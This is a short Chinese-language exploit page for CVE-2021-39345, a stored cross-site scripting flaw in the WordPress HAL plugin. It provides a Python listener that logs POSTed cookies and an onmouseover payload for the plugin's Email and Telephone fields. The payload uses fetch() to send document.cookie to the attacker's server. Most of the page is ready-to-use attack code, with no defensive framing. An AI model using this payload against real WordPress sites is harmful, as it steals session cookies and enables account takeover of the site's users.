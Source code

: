 # CVE-2021-39345

<DocsAD/>

CVE-2021-39345-Wordpress-Hal插件漏洞,版本Wordpress插件Hal.2.1.1
* XSS反弹

```JS
from http.server import BaseHTTPRequestHandler


class PostHandler(BaseHTTPRequestHandler):
    def end_headers(self):
        self.send_header('Access-Control-Allow-Origin', '*')
        BaseHTTPRequestHandler.end_headers(self)


    def do_POST(self):       
        if self.path == "/cookie":
            req_datas = self.rfile.read(int(self.headers['content-length']))
            print(req_datas.decode())


        self.send_response(200)
        self.send_header('Content-type', 'application/json')
        self.end_headers()


if __name__ == '__main__':
    from http.server import HTTPServer
    server = HTTPServer(('192.168.199.1', 8001), PostHandler)
    print('Starting server, use <Ctrl-C> to stop')
    server.serve_forever()
```

* 在Hal的Email，Telephone等输入框中插入Payload

```JS
"OnMoUsEoVeR=fetch("http://192.168.199.1:8001/cookie",{method:'POST',body:document.cookie,mode:'cors'})//
```

* 把鼠标重新放到Email，Telephone等输入框中即触发Payload

![er](/imgs/exps/CVE-2021-39345.png)